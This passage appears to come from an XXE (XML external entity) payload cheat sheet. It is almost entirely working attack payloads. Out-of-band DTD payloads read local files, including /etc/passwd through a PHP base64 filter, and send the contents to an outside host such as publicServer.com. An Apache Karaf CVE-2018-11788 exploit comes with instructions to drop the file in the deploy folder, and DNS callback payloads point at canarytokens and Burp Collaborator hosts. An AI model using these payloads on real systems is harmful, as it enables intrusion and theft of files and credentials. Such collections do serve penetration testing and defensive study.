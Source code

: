 ```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/parameterEntity_oob.dtd">
<data>&send;</data>

File stored on http://publicServer.com/parameterEntity_oob.dtd
<!ENTITY % file SYSTEM "file:///sys/power/image_size">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://publicServer.com/?%file;'>">
%all;
```

### XXE OOB with DTD and PHP filter

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://127.0.0.1/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

File stored on http://127.0.0.1/dtd.xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://127.0.0.1/dtd.xml?%data;'>">
```

### XXE OOB with Apache Karaf

CVE-2018-11788 affecting versions:

- Apache Karaf <= 4.2.1
- Apache Karaf <= 4.1.6

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://27av6zyg33g8q8xu338uvhnsc.canarytokens.com"> %dtd;]
<features name="my-features" xmlns="http://karaf.apache.org/xmlns/features/v1.3.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://karaf.apache.org/xmlns/features/v1.3.0 http://karaf.apache.org/xmlns/features/v1.3.0">
    <feature name="deployer" version="2.0" install="auto">
    </feature>
</features>
```

Send the XML file to the `deploy` folder.

Ref. [brianwrf/CVE-2018-11788](https://github.com/brianwrf/CVE-2018-11788)


## XXE with local DTD

In some case, outgoing connections are not possible from the web application. DNS names might even not resolve externally with a payload like this:
```xml
<!DOCTYPE root [<!ENTITY test SYSTEM 'http://h3l9e5soi0090naz81tmq5ztaaaaaa.burpcollaborator.net'>]>
<root>&test;</root>
```
